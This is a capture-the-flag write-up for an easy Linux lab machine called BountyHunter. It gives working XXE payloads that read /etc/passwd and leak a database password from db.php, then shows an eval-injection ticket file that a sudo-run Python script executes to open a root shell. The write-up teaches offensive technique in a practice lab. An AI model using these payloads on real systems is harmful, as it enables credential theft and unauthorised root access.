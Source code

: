 ## **BOUNTY HOUNTER  WRITE  UP**

Machine Difficulty: <span style="color:#39e600">Easy</span> | Machine OS: <span style="color:#39e600">Linux</span>

![image-20210730010535743](https://github.com/vaggos542/vaggos542.github.io/blob/master/images/BountyHounter/a24c032885e56a17a6c74cc58b63e8f4.png?raw=true)

Bounty hunter is an easy box based on well known vulnerability with a twist. For the initial foothold if you find the path you have to follow it and when it comes to end think a little bit different (OWASP will help you a lot). The root is straightforward, maybe you stuck for a bit, but if you combine some things you will get what you want!

----



**Nmap Scan**

![image-20210730010535743](https://github.com/vaggos542/vaggos542.github.io/blob/master/images/BountyHounter/image-20210730010535743.png?raw=true)

**Gobuster Scan**

![image-20210808143902953](https://github.com/vaggos542/vaggos542.github.io/blob/master/images/BountyHounter/image-20210808143902953.png?raw=true)

Accessing the /portal.php we see a bounty report form.

![image-20210808143133909](https://github.com/vaggos542/vaggos542.github.io/blob/master/images/BountyHounter/image-20210808143133909.png?raw=true)

Let's take the request in burp and analyze it a little bit.

![image-20210808143249434](https://github.com/vaggos542/vaggos542.github.io/blob/master/images/BountyHounter/image-20210808143249434.png?raw=true)

```
data=PD94bWwgIHZlcnNpb249IjEuMCIgZW5jb2Rpbmc9IklTTy04ODU5LTEiPz4KCQk8YnVncmVwb3J0PgoJCTx0aXRsZT50ZXN0PC90aXRsZT4KCQk8Y3dlPnRlc3Q8L2N3ZT4KCQk8Y3Zzcz50ZXN0PC9jdnNzPgoJCTxyZXdhcmQ%2BdGVzdDwvcmV3YXJkPgoJCTwvYnVncmVwb3J0Pg%3D%3D
```

Base64 decode. We see it id xml and that is a good sign!

 ```
 <?xml  version="1.0" encoding="ISO-8859-1"?>
 		<bugreport>
 		<title>test</title>
 		<cwe>test</cwe>
 		<cvss>test</cvss>
 		<reward6É•Ý…É�'Vw&W'C`
 ```

It brakes a little bit. We have to URL decode first and then base64 decode.

```
<?xml  version="1.0" encoding="ISO-8859-1"?>
		<bugreport>
		<title>test</title>
		<cwe>test</cwe>
		<cvss>test</cvss>
		<reward>test</reward>
		</bugreport>
```

**XXE payload**

Create a new **ENTITY** called xxe, **SYSTEM** is a keyword that let the XML parser know that the ENTITY type is **EXTERNAL**

More about XXE on  [PortSwigger](https://portswigger.net/web-security/xxe/ ) 

````
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
		<bugreport>
		<title>&xxe;</title>
		<cwe>Test</cwe>
		<cvss>123</cvss>
		<reward>1</reward>
		</bugreport>

````

Final PoC with URL and base64 encoded

```
data= PD94bWwgdmVyc2lvbj0iMS4wIiBlbmNvZGluZz0iSVNPLTg4NTktMSI%2FPgo8IURPQ1RZUEUgZm9vIFsgPCFFTlRJVFkgeHhlIFNZU1RFTSAiZmlsZTovLy9ldGMvcGFzc3dkIj4gXT4KCQk8YnVncmVwb3J0PgoJCTx0aXRsZT4meHhlOzwvdGl0bGU%2BCgkJPGN3ZT5UZXN0PC9jd2U%2BCgkJPGN2c3M%2BMTIzPC9jdnNzPgoJCTxyZXdhcmQ%2BMTwvcmV3YXJkPgoJCTwvYnVncmVwb3J0Pg%3D%3D
```

*Response:*

![image-20210727231428484](C:\Users\542\AppData\Roaming\Typora\typora-user-images\image-20210727231428484.png)

We successfully read the **/etc/passwd** file!

I tried to find the id_rsa of the user **developemt**, to access the **/etc/shadow**, to access the the **db.php** but all was a dead end.

Until I used filter base64 to access the **db.php**

```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/var/www/html/db.php"> ]>
```

![image-20210730010636672](C:\Users\542\AppData\Roaming\Typora\typora-user-images\image-20210730010636672.png)

We got a base64 string response

```
PD9waHAKLy8gVE9ETyAtPiBJbXBsZW1lbnQgbG9naW4gc3lzdGVtIHdpdGggdGhlIGRhdGFiYXNlLgokZGJzZXJ2ZXIgPSAibG9jYWxob3N0IjsKJGRibmFtZSA9ICJib3VudHkiOwokZGJ1c2VybmFtZSA9ICJhZG1pbiI7CiRkYnBhc3N3b3JkID0gIm0xOVJvQVUwaFA0MUExc1RzcTZLIjsKJHRlc3R1c2VyID0gInRlc3QiOwo/Pgo=
```

*Decoded*. 

```
<?php
// TODO -> Implement login system with the database.
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "m19RoAU0hP41A1sTsq6K";
$testuser = "test";
?>
```

We successfully login with ssh as **development**.

![image-20210730010919988](https://github.com/vaggos542/vaggos542.github.io/blob/master/images/BountyHounter/image-20210730010919988.png?raw=true)

****



## **Privilege Escalation**

My fav command **sudo -l**

![image-20210730012727472](https://github.com/vaggos542/vaggos542.github.io/blob/master/images/BountyHounter/image-20210730012727472.png?raw=true)

Let's locate ticketValidator.py and examine it.

```
#Skytrain Inc Ticket Validation System 0.1
#Do not distribute this file.

def load_file(loc):
    if loc.endswith(".md"):
        return open(loc, 'r')
    else:
        print("Wrong file type.")
        exit()

def evaluate(ticketFile):
    #Evaluates a ticket to check for ireggularities.
    code_line = None
    for i,x in enumerate(ticketFile.readlines()):
        if i == 0:
            if not x.startswith("# Skytrain Inc"):
                return False
            continue
        if i == 1:
            if not x.startswith("## Ticket to "):
                return False
            print(f"Destination: {' '.join(x.strip().split(' ')[3:])}")
            continue

        if x.startswith("__Ticket Code:__"):
            code_line = i+1
            continue

        if code_line and i == code_line:
            if not x.startswith("**"):
                return False
            ticketCode = x.replace("**", "").split("+")[0]
            if int(ticketCode) % 7 == 4:
                validationNumber = eval(x.replace("**", ""))
                if validationNumber > 100:
                    return True
                else:
                    return False
    return False

def main():
    fileName = input("Please enter the path to the ticket file.\n")
    ticket = load_file(fileName)
    #DEBUG print(ticket)
    result = evaluate(ticket)
    if (result):
        print("Valid ticket.")
    else:
        print("Invalid ticket.")
    ticket.close

main()

```

There is also and a folder with invalid tickets, this will help us!

![image-20210730013101639](https://github.com/vaggos542/vaggos542.github.io/blob/master/images/BountyHounter/image-2021073001053003.png?raw=true)

Invalid ticket (/opt/skytrain_inc/invalid_tickets)

```
# Skytrain Inc
## Ticket to Bridgeport
__ticket code:__
**18+71+8**
##Issued: 2021/06/21
#End Ticket

```

After some time modifying my **test.md** this is the final PoC for root.

```
# Skytrain Inc
## Ticket to 
__Ticket Code:__
**18+71 + __import__('os').system('/bin/bash')
```

```
sudo /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
```

![image-20210730171259804](C:\Users\542\AppData\Roaming\Typora\typora-user-images\image-20210730171259804.png)

ROOT ROOT ROOT!

<span style="font-family:Papyrus; font-size:2em;">Happy Hacking!</span> 



